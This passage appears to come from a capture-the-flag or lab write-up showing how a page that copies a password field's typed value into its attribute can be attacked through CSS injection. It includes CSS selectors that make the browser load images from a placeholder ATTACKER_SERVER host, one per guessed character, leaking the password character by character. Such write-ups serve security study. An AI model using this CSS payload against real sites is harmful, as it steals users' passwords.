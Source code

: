 
```javascript
const inp = document.getElementById("password");
inp.addEventListener("keyup", (e) => {
    inp.setAttribute("value", inp.value);
});
```


The fact they only do this for the password, not the username, made me suspicious 🔎 I updated the CSS in the devtools style editor.


```css
input[name="password"][value^="a"] {
    background-image: url(https://ATTACKER_SERVER/a);
}
```


When I typed "a" into the password field, I saw a request to the `/a` endpoint on my server.

![](images/6.PNG)

So, we can host the following in our CSS file. It will check if the first character of the password field matches any character in the alphabet (or digits).


```css
input[name="password"][value^="a"] {
    background-image: url("https://ATTACKER_SERVER/a");
}
input[name="password"][value^="b"] {
    background-image: url("https://ATTACKER_SERVER/b");
}
input[name="password"][value^="c"] {
    background-image: url("https://ATTACKER_SERVER/c");
}
input[name="password"][value^="d"] {
    background-image: url("https://ATTACKER_SERVER/d");
}
input[name="password"][value^="e"] {
    background-image: url("https://ATTACKER_SERVER/e");
}
input[name="password"][value^="f"] {
    background-image: url("https://ATTACKER_SERVER/f");
}
/** Add the remaining input elements for a-zA-Z0-9**/
```
